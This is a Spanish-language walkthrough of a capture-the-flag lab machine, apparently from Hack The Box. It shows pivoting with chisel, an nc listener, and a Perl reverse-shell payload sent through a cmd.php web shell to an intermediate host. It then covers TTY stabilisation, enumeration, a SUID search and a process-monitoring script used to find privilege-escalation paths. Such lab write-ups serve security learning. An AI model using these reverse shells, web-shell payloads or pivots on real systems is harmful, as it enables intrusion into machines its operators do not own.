 1. lanzamos nuevamente el chisel cliente

    ```bash
    ./chisel client 10.10.14.29:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
    ```

1. desde nuestra maquina no ponemos en escucha por el puerto 2222

    ````bash
    nc -nlvp 2222
    ```

1. desde la web entablamos una reverse shell, en este caso no a nuestra maquina, pero a la maquina puente

    ```bash
    http://localhost/8924d0659008565c554f8128cd11fda4/cmd.php?cmd=perl -e 'use Socket;$i="172.19.0.4";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

Hemos ganado accesso al contenedor www.

#### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

miramos un poco la maquina y vemos que el user.txt esta en el directorio del usuario somaro pero que no tenemos derechos para leer lo. 
Tenemos que escalar privilegios.

```bash
whoami
id
hostname
hostname -I
ifconfig
ip a
cd /
find \-perm -4000 2>/dev/null
```

No vemos nada interessante. Miramos si hay tareas que se ejecutan a intervalo regulares de tiempo. 
Para esto nos creamos el famoso procmon.sh

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```

